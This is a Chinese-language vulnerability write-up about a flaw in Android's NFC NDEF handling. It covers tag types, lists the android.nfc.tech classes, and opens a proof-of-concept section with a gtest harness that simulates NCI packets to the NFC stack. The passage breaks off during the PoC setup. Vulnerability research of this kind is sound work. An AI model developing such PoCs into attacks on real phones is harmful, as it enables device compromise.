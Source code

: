 
本文不对详细的数据结构的各个字段做出解释

 

漏洞存在于使用 NDEF 数据包通信的过程中

### Tag

NFC Forum 定义了 4 种 tag, 分别为 Type1,2,3,4 . 他们之前的区别在于占用存储空间的大小和使用底层协议不同. 但能被 NFC Reader 和 NFC Tag 读写的 tag 类型远多于 4 种, Android Java 层提供了 "android.nfc.tech" 包用来处理不同类型的 tag, 下表列出了该包里的几个类, 这些类分别处理不同类型的 tag. 例如, NDEF 是用来处理 Type1-4 的类,

<table><thead><tr><th><a href="https://developer.android.com/reference/android/nfc/tech/IsoDep">IsoDep</a></th><th>Provides access to ISO-DEP (ISO 14443-4) properties and I/O operations on a <code>Tag</code>.</th></tr></thead><tbody><tr><td><a href="https://developer.android.com/reference/android/nfc/tech/MifareClassic">MifareClassic</a></td><td>Provides access to MIFARE Classic properties and I/O operations on a <code>Tag</code>.</td></tr><tr><td><a href="https://developer.android.com/reference/android/nfc/tech/MifareUltralight">MifareUltralight</a></td><td>Provides access to MIFARE Ultralight properties and I/O operations on a <code>Tag</code>.</td></tr><tr><td><a href="https://developer.android.com/reference/android/nfc/tech/Ndef">Ndef</a></td><td>Provides access to NDEF content and operations on a <code>Tag</code>.</td></tr><tr><td><a href="https://developer.android.com/reference/android/nfc/tech/NdefFormatable">NdefFormatable</a></td><td>Provide access to NDEF format operations on a <code>Tag</code>.</td></tr><tr><td><a href="https://developer.android.com/reference/android/nfc/tech/NfcA">NfcA</a></td><td>Provides access to NFC-A (ISO 14443-3A) properties and I/O operations on a <code>Tag</code>.</td></tr><tr><td><a href="https://developer.android.com/reference/android/nfc/tech/NfcB">NfcB</a></td><td>Provides access to NFC-B (ISO 14443-3B) properties and I/O operations on a <code>Tag</code>.</td></tr><tr><td><a href="https://developer.android.com/reference/android/nfc/tech/NfcBarcode">NfcBarcode</a></td><td>Provides access to tags containing just a barcode.</td></tr><tr><td><a href="https://developer.android.com/reference/android/nfc/tech/NfcF">NfcF</a></td><td>Provides access to NFC-F (JIS 6319-4) properties and I/O operations on a <code>Tag</code>.</td></tr><tr><td><a href="https://developer.android.com/reference/android/nfc/tech/NfcV">NfcV</a></td><td>Provides access to NFC-V (ISO 15693) properties and I/O operations on a <code>Tag</code>.</td></tr></tbody></table>

 

漏洞代码中出现的 T1T,T2T...TT,I93, 是 R/W 模式下, 探测, 读写 NDEF 数据包的具体实现方法, 是一种的技术标准. 比如 I93 是基于 ISO 15693 的实现方法, T1T 基于 NFC-A , 也就是 ISO 14443-3A

漏洞分析
----

### poc 代码

基于 Google 的测试框架 gtest 编写了一个集成测试文件, TEST 函数是测视例的 main 函数, 自动化测试框架从 TEST 调用 poc 代码:

```
TEST(NfcIntegrationTest, test_mifare_state_bug) {
  CallbackTracker tracker;
  g_callback_tracker = &tracker;
 
  NfcAdaptation& theInstance = NfcAdaptation::GetInstance();
  theInstance.Initialize();
 
  NFA_Init(&entry_funcs);
  NFA_Enable(nfa_dm_callback, nfa_conn_callback);
  usleep(5000);
 
  std::vector reset_core = {0x1, 0x29, 0x20};
  g_callback_tracker->SimulatePacketArrival(
      NCI_MT_NTF, 0, NCI_GID_CORE, NCI_MSG_CORE_RESET, reset_core.data(),
      reset_core.size());
 
  {
    std::unique_lock reset_done_lock(cv_mutex);
    reset_done_cv.wait(reset_done_lock);
  }
```